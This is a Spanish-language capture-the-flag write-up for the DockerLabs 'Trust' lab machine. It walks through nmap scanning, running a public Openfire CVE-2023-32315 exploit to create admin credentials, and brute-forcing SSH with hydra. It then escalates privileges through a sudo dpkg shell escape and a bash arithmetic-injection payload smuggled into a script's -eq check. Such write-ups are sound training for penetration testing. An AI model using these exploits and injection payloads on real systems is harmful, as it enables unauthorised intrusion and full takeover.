

# Maquina Trust - DockerLabs

* Nivel : Medio
* Máquina : Linux
* Útil para el Ejptv2
* Ip Maquina : 172.17.0.2

## Escaneo de puertos

```bash
sudo nmap -A -sV -O -T4 -p- -Pn 172.18.0.2
```

El escaneo me da varios puertos abiertos, me dice que esta usando un protocolo de XMPP, Openfire 3.10.0. Uno de los puertos el 9090 es un login.

## Puerto 9090

Aparece un login de openfire. Buscare algún exploit para su verisón.

En github he encontrado el siguiente exploit : https://github.com/K3ysTr0K3R/CVE-2023-32315-EXPLOIT/blob/main/CVE-2023-32315.py, que da el user y el password para acceder al openfire login.

```bash
python3 CVE-2023-32315.py -u http://172.17.0.2:9090

 ██████ ██    ██ ███████       ██████   ██████  ██████  ██████        ██████  ██████  ██████   ██ ███████
██      ██    ██ ██                 ██ ██  ████      ██      ██            ██      ██      ██ ███ ██     
██      ██    ██ █████   █████  █████  ██ ██ ██  █████   █████  █████  █████   █████   █████   ██ ███████
██       ██  ██  ██            ██      ████  ██ ██           ██            ██ ██           ██  ██      ██
 ██████   ████   ███████       ███████  ██████  ███████ ██████        ██████  ███████ ██████   ██ ███████

Coded By: K3ysTr0K3R --> Hug me ʕっ•ᴥ•ʔっ

[*] Launching exploit against: http://172.17.0.2:9090
[*] Checking if the target is vulnerable
[+] Target is vulnerable
[*] Adding credentials
[+] Successfully added, here are the credentials
[+] Username: hugme
[+] Password: HugmeNOW

```
 

Una vez dentro ir a users y buscar algun posible user o password para acceder por ssh. Probare chocolatitochingon con hydra por si encuentra su password.

```bash
hydra -l chocolatitochingon -P /usr/share/wordlists/rockyou.txt -t 4 172.17.0.2 ssh
DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: chocolatitochingon   password: chocolate
1 of 1 target successfully completed, 1 valid password found

```
Ha encontrado el password.

## Esclar privilegios

Una vez dentro del ssh, he probado de hacer sudo -l y puedo ejecutar el dpkg con root con el user pinguinacio sin password.

```bash
chocolatitochingon@2df46c2e630d:~$ sudo -l
Matching Defaults entries for chocolatitochingon on 2df46c2e630d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User chocolatitochingon may run the following commands on 2df46c2e630d:
    (pinguinacio) NOPASSWD: /usr/bin/dpkg
```
He ejecutado el archivo pero necesita algo más. He buscado en GTFobins y he encontrado :

```bash
chocolatitochingon@2df46c2e630d:/usr/bin$ sudo -u pinguinacio /usr/bin/dpkg -l
Después escribir : !/bin/sh
```
Y ya escalas a pinguinancio.

Y vuelvo a hacer sudo -l

```bash
sudo -l
Matching Defaults entries for pinguinacio on 2df46c2e630d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pinguinacio may run the following commands on 2df46c2e630d:
    (ALL) NOPASSWD: /bin/bash /home/pinguinacio/script.sh

```
He entrado a la ruta, he visto que no tiene privilegios para modificar el archivo, he leido el programa y he buscado alguna vulnerabilidad con el operador -eq.
```bash
sudo /bin/bash /home/pinguinacio/script.sh
```
Y contestar :

```bash
a[$(/bin/bash >&2)]+42

```
Y escalas a root. 

El por que : El operador -eq intenta convertir ambos lados en números. Si le das algo que no es un número puro, Bash lo interpretará como una expresión aritmética y tratará de evaluarlo.
